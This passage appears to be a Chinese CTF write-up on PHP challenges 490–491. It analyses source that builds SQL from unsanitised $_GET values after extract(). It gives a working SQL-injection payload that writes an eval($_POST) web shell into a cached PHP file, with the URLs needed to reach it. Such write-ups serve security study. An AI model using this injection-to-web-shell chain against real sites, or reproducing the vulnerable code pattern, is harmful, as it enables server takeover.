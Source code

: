 ```php
if($action=='check'){
	extract($_GET);
	$sql = "select username from user where username = '".$username."' and password='".md5($password)."' order by id limit 1";
	$user=db::select_one($sql);
	if($user){
		templateUtil::render('index',array('username'=>$user->username));
	}else{
		templateUtil::render('error');
	}
}
```

`extract($_GET);`被放到上面去了，489的变量覆盖的解法就不通了

但是可以发现`$username不会经过md5()编码`了，可以构造闭合把马写进去，原理类似489



综上，`file_put_contents($filename, $content);`中:

1. $filename为：`cache/md5(index).php`

   ![](https://s2.loli.net/2022/03/09/vN9GWh34toaXpPu.png)

2. $content为：`username`传入的值

3. $sql为：变量覆盖的sql语句

payload:

1. 先访问`/index.php?action=clear`删除缓存
   因为他会定义一个flag_here啥的未定义变量，就会报错，所以得删除缓存

2. ```
   /index.php?action=check&username=1'union select 'eval($_POST[1]);' as username; %23 &password=1
   ```

3. 然后访问：`/cache/6a992d5529f459a44fee58c733255e86.php`

   (如果搞错了可以用给的`clear`来清除缓存`cache`：`/index.php?action=clear`)





## 491-load_file

继续看源码吧

index下，两个都修改了，上面的方法又不可行了

```php
if($action=='check'){
	extract($_GET);
	$sql = "select username from user where username = '".$username."' and password='".md5($password)."' order by id limit 1";
	$user=db::select_one($sql);
	if($user){
		templateUtil::render('index');
	}else{
		templateUtil::render('error');
	}
}
if($action=='clear'){
	system('rm -rf cache/*');
	die('cache clear');
}
   ```
